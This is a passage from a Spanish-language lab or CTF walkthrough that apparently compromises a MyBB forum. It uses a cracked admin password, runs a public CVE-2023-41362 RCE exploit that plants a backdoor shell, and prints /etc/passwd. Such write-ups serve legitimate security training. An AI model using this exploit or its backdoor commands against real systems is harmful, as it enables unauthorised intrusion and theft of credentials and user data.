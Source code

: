 
Nos aparecen varios falsos positivos, pero el que nos interesa sera la siguiente contraseña:

```
admin:babygirl
```

Por lo que nos logearemos con ella y veremos que estamos dentro como el usuario `admin`.

## Escalate user www-data

Si vemos si este `software` tiene alguna vulnerabilidad veremos el siguiente repositorio en el que podremos aprovechar un `RCE` que tiene este `software`:

URL = [Exploit RCE MyBB GitHub](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE/blob/main/exploit.py)

Nos copiaremos el codigo y lo pegaremos dentro de un archivo que queramos en mi caso lo llame `exploit.py` y lo ejecutaremos lo de la siguiente forma:

```shell
python3 exploit.py http://panel.mybb.dl admin babygirl
```

Info:

```
[*] Logging into http://panel.mybb.dl/admin/ as admin
[*] Template saved!
[*] Testing code exec...
[*] Shell is working
[*] Special commands: exit (quit), remove (removes backdoor), config (prints mybb config), dump (dumps user table)
Enter Command> cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_galera:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MariaDB Server,,,:/nonexistent:/bin/false
alice:x:1001:1001:,,,:/home/alice:/bin/bash

Enter Command>
```
